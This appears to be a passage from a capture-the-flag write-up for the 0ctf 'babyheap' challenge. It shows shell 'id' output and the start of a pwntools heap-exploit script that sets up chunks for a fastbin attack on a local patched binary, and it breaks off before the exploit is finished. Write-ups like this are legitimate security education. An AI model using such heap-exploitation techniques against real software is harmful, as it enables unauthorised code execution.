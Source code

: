 ``` Python LOG
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)

```

## Final exploit code
```Python
import pwn

PREV_INUSE = 0x1
CHUNK_ALIGNMENT = ~(0x10 - 1)


def fill(io, index, size, content: bytes):
    io.sendline("2")
    io.sendline(str(index))
    io.sendline(str(size))
    io.send_raw(content)
    io.recvuntil("Command:", timeout=1)


def free(io, index):
    io.sendline("3")
    io.sendline(str(index))
    io.recvuntil("Command:")


def dump(io, index) -> bytearray:
    io.sendline("4")
    io.sendline(str(index))
    content_bytes = io.recvuntil(b"1.")
    content_bytearray = bytearray(content_bytes)[:-2]
    io.recvuntil("Command:")
    return content_bytearray


def allocate(io, size):
    io.sendline("1")
    io.sendline(str(size))
    io.recvuntil("Command:")


def exit(io):
    io.sendline("5")


def main():
    pwn.context.log_level = 'DEBUG'
    libc = pwn.ELF("libc.so.6")

    io = pwn.process(argv=["./ld-linux-x86-64.so.2", "./0ctfbabyheap_patched", "--preload", "./libc.so.6"])
    io.recvuntil("Command:")

    allocate(io, 0x28)  # 0
    allocate(io, 0x98)  # 1
    allocate(io, 0x98)  # 2
    allocate(io, 0x98)  # 3
    allocate(io, 0x18)  # 4
    allocate(io, 0x68)  # 5 - will be used to fastbin attack - goes into 0x70 fastbin chunks.
    allocate(io, 0x18)  # 6

```